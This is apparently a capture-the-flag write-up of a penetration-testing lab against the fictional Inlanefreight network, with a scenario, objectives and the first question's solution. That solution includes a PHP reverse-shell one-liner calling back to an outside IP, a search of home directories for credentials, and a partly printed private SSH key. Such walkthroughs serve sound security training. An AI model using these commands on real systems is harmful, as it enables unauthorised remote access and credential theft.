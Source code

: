 
# Scenario

A team member started a Penetration Test against the Inlanefreight environment but was moved to another project at the last minute. Luckily for us, they left a `web shell` in place for us to get back into the network so we can pick up where they left off. 

We need to leverage the web shell to continue enumerating the hosts, identifying common services, and using those services/protocols to pivot into the internal networks of Inlanefreight. Our detailed objectives are `below`:

# Objectives

- Start from external (`Pwnbox or your own VM`) and access the first system via the web shell left in place.
- Use the web shell access to enumerate and pivot to an internal host.
- Continue enumeration and pivoting until you reach the `Inlanefreight Domain Controller` and capture the associated `flag`.
- Use any `data`, `credentials`, `scripts`, or other information within the environment to enable your pivoting attempts.
- Grab `any/all` flags that can be found.



# Questions

1. Once on the webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network. In what user's directory can you find the credentials? Submit the name of the user as the answer.

```sh
# Access the web shell
http://10.129.229.129/

# Get a reverse shell
php -r '$sock=fsockopen("10.10.15.242",4444);shell_exec("sh <&3 >&3 2>&3");'

# Stabilize the shell
python3 -c 'import pty; pty.spawn("/bin/bash")' 


# Start hunting for credentials. Here, note files
<find /home/* -type f -name "*.txt" -o ! -name "*.*"

/home/administrator
/home/webadmin
/home/webadmin/for-admin-eyes-only
find: ‘/home/webadmin/.cache’: Permission denied
find: ‘/home/webadmin/.ssh’: Permission denied
/home/webadmin/id_rsa


# Get the private key
cat /home/webadmin/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvm9BTps6LPw35+tXeFAw/WIB/ksNIvt5iN7WURdfFlcp+T3fBKZD
HaOQ1hl1+w/MnF+sO/K4DG6xdX+prGbTr/WLOoELCu+JneUZ3X8ajU/TWB3crYcniFUTgS
PupztxZpZT5UFjrOD10BSGm1HeI5m2aqcZaxvn4GtXtJTNNsgJXgftFgPQzaOP0iLU42Bn
IL/+PYNFsP4he27+1AOTNk+8UXDyNftayM/YBlTchv+QMGd9ojr0AwSJ9+eDGrF9jWWLTC
o9NgqVZO4izemWTqvTcA4pM8OYhtlrE0KqlnX4lDG93vU9CvwH+T7nG85HpH5QQ4vNl+vY
...
```